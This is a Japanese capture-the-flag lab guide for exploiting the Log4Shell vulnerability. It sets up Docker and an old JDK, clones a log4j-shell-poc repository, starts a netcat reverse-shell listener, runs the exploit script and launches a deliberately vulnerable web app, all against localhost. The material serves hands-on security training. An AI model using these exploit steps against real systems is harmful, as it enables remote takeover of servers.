 <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/water.css@2/out/dark.css">  

# システム制御を獲得しろ
> ペンテストを依頼された  
使用しているシステムライブラリとCVEコードを参照したところ、システムの制御を獲得できる脆弱性を発見した。  
検証の必要性がある。

この問題はWSLを除いた完全なLinux環境が必要です。  
もっとも簡単な方法は、[ここ](https://www.linuxvmimages.com/images/ubuntu-2004/#ubuntu-2004)から仮想ハードディスクイメージを取得することです。  

## Linux環境が整ったら以下を実行します。

dockerのインストールを行います。  
[コチラ](https://www.softek.co.jp/SID/support/sidfmvm/guide/install-docker-ubuntu1804.html)を参照すると更にわかりやすいでしょう

```bash
sudo apt update
```

```bash
sudo apt install \
    apt-transport-https \
    ca-certificates \
    curl \
    gnupg-agent \
    software-properties-common
```

```bash
sudo add-apt-repository \
    "deb [arch=amd64] https://download.docker.com/linux/ubuntu \
    $(lsb_release -cs) \
    stable"
```

```bash
sudo apt update
```

```apt
sudo apt install docker-ce docker-ce-cli containerd.io
```

---

Terminalを開き必要なリソースをコピーします。


```bash
git clone https://github.com/NT25-CTF/log4j-shell-poc-ja
```

```bash
cd log4j-shell-poc-ja
```

```bash
pip install -r requirements.txt
```

[ここ](https://drive.google.com/file/d/1r8F3X2e2pCN5Iar62yG4M0H8HuBK_4by/view?usp=sharing)から`jdk-8u20-linux-x64.tar.gz`をダウンロードし、`log4j-shell-poc-ja`以下のディレクトリにコピーします。

`log4j-shell-poc-ja`ディレクトリに移動したら、
```bash
tar -xf jdk-8u20-linux-x64.tar.gz
```
を実行します。
```bash
./jdk1.8.0_20/bin/java -version
```
を実行し、

```bash
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

が表示されれば問題ありません。

これで環境構築は終了です。

---
Terminalを別のウインドウで3つほど開いておきます。  

NetCat Listenerを起動
```bash
nc -lvnp 9001
```

Exploitを実行します。
```py
python3 poc.py --userip localhost --webport 8000 --lport 9001
```

脆弱なWebアプリケーションを含んだDockerfileを起動させます
```bash
sudo docker build -t log4j-shell-poc .
```
```bash
sudo docker run --network host log4j-shell-poc
```

[localhost](https://localhost:8080)にアクセスしましょう!